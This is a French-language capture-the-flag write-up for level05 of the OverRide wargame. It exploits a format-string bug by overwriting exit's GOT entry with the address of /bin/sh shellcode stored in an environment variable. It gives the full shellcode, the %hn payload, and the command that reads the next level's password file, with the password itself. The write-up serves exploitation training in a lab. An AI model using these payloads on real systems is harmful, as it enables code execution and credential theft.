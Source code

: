 # level05

La boucle transforme les majuscules en minuscules. On se retrouve face à une `Format String Vulnerability`.

La fonction printf écrit au 10e emplacement :
```bash
level05@OverRide:~$ ./level05
aaaa %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
aaaa 0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```

On va tenter de changer la valeur de l'addresse d'exit.

On trouve l'adresse de la fonction exit dans le programme :

```bash
level05@OverRide:~$ objdump -R level05 

level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
...
080497e0 R_386_JUMP_SLOT   exit
```

On prépare notre payload dans une variable d'environnement :
```bash
export PAYLOAD=$(perl -e 'print "\x90"x100 . "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";')
```
On trouve l'adresse de notre variable d'environnement :
```as
(gdb) x/30s *((char **)environ)
...
0xffffdf38:     "PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311̀"
```
On ajoute 8 pour prendre en compte "PAYLOAD=" : `0xffffdf40`

On prépare ensuite notre input. On ne peut pas tout écrire d'un coup donc on va couper notre payload en deux :
```bash
\xe0\x97\x04\x08
\xe2\x97\x04\x08
```
On a une adresse qui finit par `df40` ce qui donne `57152` à écrire, et on a déjà `8` caractères pour la fonction `exit`, donc il nous faut `57144` caractères pour la première partie.
Le début de l'adresse est `ffff` donc il nous faudra `65535`, mais on aura en déjà écrit beaucoup donc il ne nous restera plus que `8383` caractères à écrire pour la deuxième partie.

Ce qui nous donne le payload suivant :
```bash
perl -e 'print "\xe0\x97\x04\x08" . "\xe2\x97\x04\x08" . "%57144x%10\$hn" . "%8383x%11\$hn";' > /tmp/payload
```

```bash
level05@OverRide:~$ cat /tmp/payload - | ./level05

�
...

f7fcfac0
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```